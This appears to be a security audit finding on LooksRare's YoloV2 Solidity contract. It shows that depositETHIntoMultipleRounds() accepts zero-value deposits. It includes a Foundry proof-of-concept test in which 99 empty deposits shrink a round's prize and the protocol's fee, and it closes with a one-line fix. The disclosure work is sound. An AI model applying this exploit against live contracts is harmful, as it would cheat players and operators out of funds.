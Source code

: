 Breezy Ebony Whale

high

# depositETHIntoMultipleRounds() allows for empty deposit within round

## Summary

The `depositETHIntoMultipleRounds()` function is meant to deposit Ether within multiple rounds, however it fails to properly validate each Ether amount specified for each round. Thus, it allows malicious player to add empty deposits to rounds at choice. Empty deposit itself does not give a chance to win a round for such player. However, firstly by exploiting this vulnerability the player can select rounds willing to play with and which might be most beneficial for him/her without bearing additional costs. Secondly, empty deposit decreases the overall award prize for the winner along with the fee accrued for the solution's owner as the number of deposits is limited. 

## Vulnerability Detail

Firstly, the `depositETHIntoMultipleRounds()` function validates whether any Ether is provided within the call. Thus, player must provide at least an amount equal to `roundValuePerEntry` .

[acts/YoloV2.sol#L314
](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L314)

```solidity
    function depositETHIntoMultipleRounds(uint256[] calldata amounts) external payable nonReentrant whenNotPaused {
        uint256 numberOfRounds = amounts.length;
        if (msg.value == 0 || numberOfRounds == 0) {
            revert ZeroDeposits();
        }
[...]
```

Then, the function checks whether the amount provided for particular round is a multiple of `roundValuePerEntry` by means of modulo operation. However, for empty `depositAmount` the modulo operation returns 0, so it bypasses the assertion.

[acts/YoloV2.sol#L338
](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L338)

```solidity
[...]
            uint256 depositAmount = amounts[i];
            if (depositAmount % roundValuePerEntry != 0) {
                revert InvalidValue();
            }
            uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
            expectedValue += depositAmount;
[...]
```

Such deposit with empty amount is considered valid and accepted by the algorithm.

## Proof of Concept 

Below PoC presents scenario, where legitimate player deposits 1 Ether in first round and 10 Ether in second round. Then malicious player perform multiple deposits for first and second rounds, but first round has 0 amount set, as second round appears to be potentially more beneficial. Whenever the first round ends, the legitimate player is selected as winner. However, in this case winner receives back only 0.97 Ether, where 0.03 of Ether is consumed by fees.

```solidity
function test_gsec_depositETHIntoMultipleRounds_multiple_0_deposits_possible() public {
        uint256[] memory amounts = new uint256[](2);
        amounts[0] = 1 ether;
        amounts[1] = 10 ether;

        vm.deal(user1, 11 ether); 
        vm.prank(user1);
        yolo.depositETHIntoMultipleRounds{value: 11 ether}(amounts);

        amounts[0] = 0 ether;
        amounts[1] = 2 ether / 100; 

        for (uint256 i = 0; i < 99; i++) {
            vm.deal(user2, 2 ether / 100);
            vm.prank(user2);
            yolo.depositETHIntoMultipleRounds{value: 2 ether / 100}(amounts);
        }

        (IYoloV2.RoundStatus status,,uint16 protocolFeeBp,,uint40 drawnAt,uint40 numberOfParticipants,address winner,uint96 valuePerEntry,uint256 protocolFeeOwed,IYoloV2.Deposit[] memory deposits) = yolo.getRound(1);

        assertEq(deposits.length, 100, "number of deposits");
        assertEq(uint8(status), uint8(IYoloV2.RoundStatus.Drawing));

        uint256[] memory randomWords = new uint256[](1);
        randomWords[0] = 69_420;

        expectEmitCheckAll();
        emit RoundStatusUpdated(1, IYoloV2.RoundStatus.Drawn);

        vm.prank(VRF_COORDINATOR);
        VRFConsumerBaseV2(yolo).rawFulfillRandomWords(FULFILL_RANDOM_WORDS_REQUEST_ID, randomWords);

        (status,,,,drawnAt,,winner,,protocolFeeOwed,deposits) = yolo.getRound(1);

        assertEq(uint8(status),  uint8(IYoloV2.RoundStatus.Drawn));
        assertEq(protocolFeeOwed, 3 ether / 100);
        assertEq(winner, user1);

        uint256[] memory prizesIndices = new uint256[](4);
        prizesIndices[0] = 0;
        prizesIndices[1] = 1;
        prizesIndices[2] = 98;
        prizesIndices[3] = 99;
        IYoloV2.WithdrawalCalldata[] memory withdrawalCalldata = new IYoloV2.WithdrawalCalldata[](1);
        withdrawalCalldata[0].roundId = 1;
        withdrawalCalldata[0].depositIndices = prizesIndices;

        assertEq(user1.balance, 0);
        vm.prank(user1);
        yolo.claimPrizes(withdrawalCalldata, false);
        assertEq(user1.balance, 97 ether / 100);
    }
```

## Impact

- Malicious player can abuse this function to make Ether deposits in future rounds without the need of playing in previous rounds whenever it will be considered beneficial for him/her.
- Legitimate players can win decreased overall prize award within the round due to empty deposits.
- Solution's owner can not receive minimum possible fee for such round, as empty deposit does not accrue fee.

## Code Snippet

[acts/YoloV2.sol#L338
](https://github.com/sherlock-audit/2024-01-looksrare/blob/7d76b96a58a6aee38f23bb38b8a5daa3bdc03f7c/contracts-yolo/contracts/YoloV2.sol#L338)

## Tool used

Manual Review, Foundry.

## Recommendation

It is recommended to verify whether each `depositAmount` is a value larger than 0, to enforce player to play fairly in each round.

```solidity
[...]
            uint256 depositAmount = amounts[i];
            if (depositAmount == 0 || depositAmount % roundValuePerEntry != 0) {
                revert InvalidValue();
            }
            uint256 entriesCount = _depositETH(round, roundId, roundValuePerEntry, depositAmount);
            expectedValue += depositAmount;
[...]
```